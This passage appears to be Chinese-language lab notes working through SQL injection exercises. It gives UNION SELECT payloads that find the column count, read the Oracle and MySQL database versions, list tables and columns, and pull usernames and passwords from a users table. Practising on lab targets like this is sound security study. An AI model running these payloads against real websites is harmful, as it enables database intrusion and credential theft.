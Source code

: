 使用这个查看是否可以返回两列数据

```sqlite
'+UNION+SELECT+'abc','def'+FROM+dual--
```

![](https://pic.imgdb.cn/item/67444e9888c538a9b5bba7a2.png)

```sqlite
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```

这里的BANNER是v$version中的一列，包含数据库版本信息，加NULL是因为这里需要返回两行数据

![](https://pic.imgdb.cn/item/67444f0888c538a9b5bba7e2.png)

#### 实验：查询 MySQL 和 Microsoft 的数据库类型和版本

这里同样也是先查询几列

```sqlite
'+UNION+SELECT+'abc','def'#
```

这里--无法使用，那就用#

确定是两列就可以查看数据了

```sqlite
'+UNION+SELECT+@@version,+NULL#
```

#### 实验：列出非 Oracle 数据库上的数据库内容

先查列数，是一样的

用这个查找所有的表

```sql
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
```

![](https://pic.imgdb.cn/item/67445a5188c538a9b5bba9f2.png)

找到这其中有users的表，然后我们就可以查找数据了

```sqlite
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_nwmlhk'--
```

成功获取数据

```sqlite
'+UNION+SELECT+password_kturkk,+username_pwazrb+FROM+users_nwmlhk--
```

#### 实验：列出 Oracle 上的数据库内容

获取所有表名

```sqlite
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
```
